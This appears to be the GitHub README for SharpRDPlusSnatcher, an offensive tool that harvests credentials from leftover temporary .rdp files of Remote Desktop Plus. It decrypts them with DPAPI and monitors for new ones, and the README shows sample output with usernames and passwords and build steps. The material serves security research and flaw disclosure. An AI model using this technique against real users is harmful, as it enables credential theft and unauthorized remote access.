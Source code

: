 # SharpRDPlusSnatcher
This tool exploits a flaw in the [Remote Desktop Plus](https://www.donkz.nl) application, which temporarily drops `.rdp` files in `%localappdata%/Temp` and fails to clean up these files efficiently. This allows to decrypt and extract credentials from these temporary files before they are passed to `mstsc.exe` (Microsoft Terminal Services Client). This program can only decrypt `.rdp` files of the current user, as the files utilize the Data Protection API (DPAPI) for encryption, which is tied to the user's session.


## Usage

Upon execution, this tool first searches for any `.tmp` files that might still exist as artifacts in the `%localappdata%/Temp` directory due to Remote Desktop Plus's failure to clean up. It attempts to decrypt and display any credentials found within these existing files. After processing the existing files, the tool then monitors the directory for any newly created `.tmp` files, decrypting and displaying credentials in real-time.

```
╔═╗┬ ┬┌─┐┬─┐┌─┐╦═╗╔╦╗╔═╗┬  ┬ ┬┌─┐╔═╗┌┐┌┌─┐┌┬┐┌─┐┬ ┬┌─┐┬─┐
╚═╗├─┤├─┤├┬┘├─┘╠╦╝ ║║╠═╝│  │ │└─┐╚═╗│││├─┤ │ │  ├─┤├┤ ├┬┘
╚═╝┴ ┴┴ ┴┴└─┴  ╩╚══╩╝╩  ┴─┘└─┘└─┘╚═╝┘└┘┴ ┴ ┴ └─┘┴ ┴└─┘┴└─

[+] Checking for artifact .tmp files in application data.
[Credentials Found]: C:\Users\yeeb\AppData\Local\Temp\Remote Desktop Plus.006F4.tmp
┌───────────────────────────────────────┐
│ Username: yeeb                        │
│ Password: JediMaster1234!             │
└───────────────────────────────────────┘
[Credentials Found]: C:\Users\yeeb\AppData\Local\Temp\Remote Desktop Plus.04BF4.tmp
┌───────────────────────────────────────┐
│ Username: admin                       │
│ Password: SithLordGalacticEmpire!     │
└───────────────────────────────────────┘
[+] Monitoring for new Remote Desktop Plus Connections. Press Enter to quit.
[File Copied for Processing]: C:\Users\yeeb\AppData\Local\Temp\e037061e-3fdc-47af-a5ef-4881d99774bd.tmp
[Credentials Found]: C:\Users\yeeb\AppData\Local\Temp\e037061e-3fdc-47af-a5ef-4881d99774bd.tmp
┌───────────────────────────────────────┐
│ Username: yeeb                        │
│ Password: RebelAlliance1977!          │
└───────────────────────────────────────┘
```

## Compilation

Before compiling, add the `System.Security.Cryptography.ProtectedData` package to the solution. This package is necessary for interacting with the Data Protection API (DPAPI) to decrypt the credentials found within the `.tmp` files.

You can add this package via the .NET CLI with the following command:

```sh
dotnet add package System.Security.Cryptography.ProtectedData
```

Alternatively, if you're using Visual Studio, you can manage NuGet packages for your project and add `System.Security.Cryptography.ProtectedData` from there.

## Acknowledgments

Special thanks to the [rdp-file-password-encryptor](https://github.com/RedAndBlueEraser/rdp-file-password-encryptor) repository for providing guidelines on how to decrypt the contents of these temporary `.rdp` files.

---

*The script is for informational and educational purposes only. The author and contributors of this script are not responsible for any misuse or damage caused by this tool.* <!-- meme -->
